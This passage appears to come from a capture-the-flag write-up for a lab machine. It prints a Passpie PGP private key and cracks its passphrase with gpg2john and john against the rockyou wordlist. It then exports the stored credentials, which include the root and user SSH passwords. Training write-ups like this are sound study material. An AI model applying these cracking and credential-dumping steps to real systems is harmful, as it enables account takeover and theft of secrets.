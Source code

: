 ```
q2wOX/RzICWMbdreuQPuF0CkcvvHMeZX99Z3pEzUeuPu42E6JUj9DTYO8QJRDFr+
F2mStGpiqEOOvVmjHxHAduJpIgpcF8z18AosOswa8ryKg3CS2xQGkK84UliwuPUh
S8wCQQxveke5/IjbgE6GQOlzhpMUwzih7+15hEJVFdNZnbEC9K/ATYC/kbJSrbQM
RfcJUrnjPpDFgF6sXQJuNuPdowc36zjE7oIiD69ixGR5UjhvVy6yFlESuFzrwyeu
TDl0UOR6wikHa7tF/pekX317ZcRbWGOVr3BXYiFPTuXYBiX4+VG1fM5j3DCIho20
oFbEfVwnsTP6xxG2sJw48Fd+mKSMtYLDH004SoiSeQ8kTxNJeLxMiU8yaNX8Mwn4
V9fOIdsfks7Bv8uJP/lnKcteZjqgBnXPN6ESGjG1cbVfDsmVacVYL6bD4zn6ZN/n
WP4HAwKQfLVcyzeqrf8h02o0Q7OLrTXfDw4sd/a56XWRGGeGJgkRXzAqPQGWrsDC
6/eahMAwMFbfkhyWXlifgtfdcQme2XSUCNWtF6RCEAbYm0nAtDNQYXNzcGllIChB
dXRvLWdlbmVyYXRlZCBieSBQYXNzcGllKSA8cGFzc3BpZUBsb2NhbD6IkAQTEQgA
OBYhBHxnhqdWG8hPUEhnHjh3dcNXRdIDBQJiuFfWAhsjBQsJCAcCBhUKCQgLAgQW
AgMBAh4BAheAAAoJEDh3dcNXRdIDRFQA/3V6S3ad2W9c1fq62+X7TcuCaKWkDk4e
qalFZ3bhSFVIAP4qI7yXjBXZU4+Rd+gZKp77UNFdqcCyhGl1GpAJyyERDZ0BXwRi
uFfWEAQAhBp/xWPRH6n+PLXwJf0OL8mXGC6bh2gUeRO2mpFkFK4zXE5SE0znwn9J
CBcYy2EePd5ueDYC9iN3H7BYlhAUaRvlU7732CY6Tbw1jbmGFLyIxS7jHJwd3dXT
+PyrTxF+odQ6aSEhT4JZrCk5Ef7/7aGMH4UcXuiWrgTPFiDovicAAwUD/i6Q+sq+
FZplPakkaWO7hBC8NdCWsBKIQcPqZoyoEY7m0mpuSn4Mm0wX1SgNrncUFEUR6pyV
jqRBTGfPPjwLlaw5zfV+r7q+P/jTD09usYYFglqJj/Oi47UVT13ThYKyxKL0nn8G
JiJHAWqExFeq8eD22pTIoueyrybCfRJxzlJV/gcDAsPttfCSRgia/1PrBxACO3+4
VxHfI4p2KFuza9hwok3jrRS7D9CM51fK/XJkMehVoVyvetNXwXUotoEYeqoDZVEB
J2h0nXerWPkNKRrrfYh4BBgRCAAgFiEEfGeGp1YbyE9QSGceOHd1w1dF0gMFAmK4
V9YCGwwACgkQOHd1w1dF0gOm5gD9GUQfB+Jx/Fb7TARELr4XFObYZq7mq/NUEC+P
o3KGdNgA/04lhPjdN3wrzjU3qmrLfo6KI+w2uXLaw+bIT1XZurDN
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----
```

We can:
- save the contents into a `privkey` file
- convert it to john with `gpg2john privkey > gpg.john`
- try cracking it with `john -w=/usr/share/wordlists/rockyou.txt gpg.john`

`john` was able to crack it:
```
blink182         (Passpie)     
1g 0:00:00:06 DONE (2022-12-12 10:58) 0.1605g/s 26.32p/s 26.32c/s 26.32C/s ginger..blink182
```

`passpie` can `export` the passwords for us, provided we have the private key, so we run:
```
jnelson@meta2:~$ touch passwords
jnelson@meta2:~$ passpie export passwords
Passphrase: 
jnelson@meta2:~$ cat passwords 
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
jnelson@meta2:~$ 
```
